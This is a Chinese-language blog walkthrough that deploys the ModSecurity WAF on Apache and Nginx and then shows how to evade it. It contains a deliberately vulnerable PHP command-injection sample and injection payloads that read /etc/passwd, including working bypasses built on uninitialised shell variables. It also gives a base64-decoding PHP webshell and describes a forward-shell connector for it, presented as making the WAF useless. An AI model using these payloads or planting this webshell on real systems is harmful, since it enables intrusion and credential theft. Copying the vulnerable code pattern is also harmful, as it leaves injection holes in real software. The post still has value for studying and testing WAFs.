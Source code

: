 ```yaml
---
layout: about
category: about
Researchname:  Mod-Waf-Bypass-Walkthrough
toc: true
permalink: /about/Mod-Waf-Bypass-Walkthrough/
---
```


# 「分享」ModsecWAF：老牌开源waf的绕过历程

## 零：连喊三声「WAF」

### 0x01 拿来WAF
依稀记得高中的一位物理老师的一段话，就拿这段话来开始吧；背景是当时刚学物理课程，很多人学会物理公式仅限于会用，他们在课堂上对我们的物理老师表达出了焦虑。
当然，研究生学历的物理老师对于这种学习上的困扰必然是经历过，然后提出了下面的观点，原话记不太清了，所以只能大概表述出意思：

>我知道你们现在有些迷茫，当然也是正常的。但是你们要想在某些领域上有所建树、突破，就要学会站在巨人的肩膀上看这个世界，鲁迅提出的拿来主义我觉得很适合用来学物理；
>**不管这些物理公式为什么是这样的、怎么得来的，先拿来用。**

「拿来主义」：
>是民国时期面对外来文化的冲击和中国封建时代遗留下来的文化，如何选择和取舍，于当时中国流行的闭关主义和全面西化的不同呼声；
>**鲁迅主张，既非被动地被“送去”，亦非不加分析地“拿来”，而是通过实用主义的观点选择性的“拿来”。**

所以我想：针对WAF也可以这样来学习，不知道WAF的工作原理没有关系，我们先把开源的WAF拿过来用，用了才知道WAF的优点、缺点；

同样的：只有用过之后，我们看到拦截日志后可以知道WAF的正则表达规则库，可以对WAF的工作方式有一些了解。

### 0x02 部署WAF

---

#### # Apache部署

[_进一步了解：APACHE中间件链接ModSec_](https://zhuanlan.zhihu.com/p/104931385){:target="_blank"}

没什么好说的，跟着教程一步步走基本上都能搞定。直接上部署成功的图：
![waf-apache](/static/web-image/waf/apache-modsec-waf.png)
如上图，部署成功后可以看到访问`http://localhost?doc=/bin/ls`，WAF给出拦截操作，日志记录提示触发了`unix-shell.data`规则导致拦截返回403；

#### # Nginx部署

[_进一步了解：Nginx中间件链接ModSec_](https://zhuanlan.zhihu.com/p/80866123){:target="_blank"}


![waf-apache](/static/web-image/waf/nginx-modsec-waf.png)
同样的：访问`localhost:8011/?and 1=2--+`，触发WAF拦截规则返回403；需要注意的是：
- nginx版本，教程中推荐的1.9版本实际操作下来无法成功编译安装，这里推荐`nginx/1.13.8`
    * `wget http://nginx.org/download/nginx-1.13.8.tar.gz`
    
- 环境lib库安装：
    *  `sudo apt-get install openssl libssl-dev libpcre3 libpcre3-dev zlib1g-dev autoconf automake libtool gcc g++ make`

- [tips]以下四条命令的含义：
    * ```bash
    $ sed -ie 's/SecDefaultAction "phase:1,log,auditlog,pass"/#SecDefaultAction "phase:1,log,auditlog,pass"/g' crs-setup.conf
    $ sed -ie 's/SecDefaultAction "phase:2,log,auditlog,pass"/#SecDefaultAction "phase:2,log,auditlog,pass"/g' crs-setup.conf
    $ sed -ie 's/#.*SecDefaultAction "phase:1,log,auditlog,deny,status:403"/SecDefaultAction "phase:1,log,auditlog,deny,status:403"/g' crs-setup.conf
    $ sed -ie 's/# SecDefaultAction "phase:2,log,auditlog,deny,status:403"/SecDefaultAction "phase:2,log,auditlog,deny,status:403"/g' crs-setup.conf
    ```
    * 将下面查看`crs-setup.conf`文件输出中1、2行（下文2、3行）的内容注释，文件中5、6行（下文6、7行）取消注释； 
    ```bash
    cat crs-setup.conf|grep SecDefaultAction
    #SecDefaultAction "phase:1,log,auditlog,pass"
    #SecDefaultAction "phase:2,log,auditlog,pass"
    # SecDefaultAction "phase:1,nolog,auditlog,pass"
    # SecDefaultAction "phase:2,nolog,auditlog,pass"
    SecDefaultAction "phase:1,log,auditlog,deny,status:403"
    SecDefaultAction "phase:2,log,auditlog,deny,status:403"
    # SecDefaultAction "phase:1,log,auditlog,redirect:'http://%{request_headers.host}/',tag:'Host: %{request_headers.host}'"
    # SecDefaultAction "phase:2,log,auditlog,redirect:'http://%{request_headers.host}/',tag:'Host: %{request_headers.host}'"
    ```
其他根据教程往下走即可。

### 0x03 绕过WAF

#### # 未初始变量进行绕过
跟随大佬们的脚步走，使用简单的php代码进行WAF测试：
```php
<?php
        if(isset($_GET['host'])) {
        system('dig'.$_GET['host']);
        }
?>
```
如上代码尝试绕过WAF。我们知道终端执行`dig www.baidu.com;cat /etc/passwd`实际执行如下：
```bash
dig www.baidu.com;cat /etc/passwd

; <<>> DiG 9.10.6 <<>> www.baidu.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 27659
;; flags: qr rd; QUERY: 1, ANSWER: 3, AUTHORITY: 5, ADDITIONAL: 4
;; WARNING: recursion requested but not available
···
···
···
# Open Directory.
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
··
··
_oahd:*:441:441:OAH Daemon:/var/empty:/usr/bin/false
```
在终端下相同作用的链接符号还有`&&`；

直接传参`www.baidu.com;cat+/etc/passwd`注入明显的攻击行为直接返回403，查看日志匹配到以下特征：
- 1、`"Operator Rx' with parameter ^[\d.:]+$' against variable`，存在运算符；
- 2、`Operator PmFromFile' with parameter lfi-os-files.data'`，正则匹配到lfi-os-files的规则库；
- 3、`characters omitted`，特殊字符；
- 4、`"Operator PmFromFile' with parameter unix-shell.data'`，正则匹配到unix-shell的规则库；
- 5、`Operator Ge' with parameter 5'`，同样为存在运算符。
所以根据以上特征进行规则探测并注入fuzz：


---

- `+$u+cat+/$uetc/$upasswd$u`
- `+$ucat+$u/etc$u/passwd`
以上都返回200，但是没有回显，说明命令写的不对；

实际测试`/etc`、`/passwd`和特殊字符等不能单独出现，所以使用未初始变量`$u`包住后进行注入；
下面是实际生效的payload：
- `+$u+cat+/etc$u/passwd$u`
- `+$u+cat+$u/etc$u/passwd`
![waf-bypass-exec](/static/web-image/waf/waf-bypass-exec-command.png)


## 一：编写poc脚本连接器

通过以上绕过首发即可执行任意代码，我们可以直接写入一句话木马，但是这不是本段的重点；

本段的重点是通过实际测试发现base64编码后可以完美绕过waf，所以可以直接写入一个base64的马，然后连接，实际上就是解决实现一个webshell连接器，实现
功能类似一个蚁剑的cmd连接功能；这样以来WAF就形同虚设了。
webshell代码：
```php
<?php system(base64_decode($_GET['CMD']));?>
```
- GET/POST请求传入cmd
- base64加密参数内容
- 类似终端执行代码
实现效果如下：
![waf-bypass-shell](/static/web-image/waf/waf-bypass-shell.png)
参考的是[@IppSec]的代码，简单修改了部分。
[参考代码](https://github.com/IppSec/forward-shell/blob/master/forward-shell.py){:target="_blank"}

---

以上